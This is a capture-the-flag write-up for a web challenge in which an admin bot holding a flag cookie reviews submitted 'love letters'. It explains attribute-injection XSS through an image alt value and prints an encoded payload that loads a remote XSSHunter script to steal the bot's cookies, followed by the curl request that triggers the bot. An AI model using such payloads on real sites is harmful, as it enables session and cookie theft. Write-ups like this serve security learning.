


# Love Letter

Send a love letter to our admin <3

http://ctf.wackattack.eu:5021

[⬇️ love_letter_handout.zip](./love_letter_handout.zip)

# Writeup

This challenge is just as GoGoGo (revenge) but with a different approach. The love letter can be requested visited by a bot, this bot has the flag in cookies.

It seems impossible to inject anything as the letter is parsed trough a pretty secure parser.

```javascript
  return c.html(html`
      <html>
      <head>
        <title>Love letter | WackCTF</title>
      </head>
      <body>
      <main>
      <section>
        <h1>Love letter from ${letter.name}</h1>
        <p>${letter.message} </p>
        
       </section>
      </body>
      </main>
    </html>
  `);
```

So any tags we try to craft do get escaped, but after a while we see that the letter name is inserted as a value to the `alt` attribute in the image tag. This is a potential XSS vector. Because without adding tags we can just write `peter onload=alert(1)` and the alert will trigger as the first word is bound to the `alt` attribute and the next word would be a new attribute.

Using XSSHunter who had a payload for this exact scenario we was able to trigger the alert and get the cookies from the bot.

```javascript
" id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL296bG96cTlpNzAiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onload=eval(atob(this.id))
```



This payload will evaluate the data in the id and send the cookies to my XSSHunter account. Now we could just send a request for admin to visit the note using the endpoint `/review` with the note UUID as the code shows.

```bash
$curl -X POST http://ctf.wackattack.eu:5021/review/533642c7-27ee-44d1-b48b-7748b288585b
Thanks for reviewing the letter!
```

A few seconds later we get a flag:



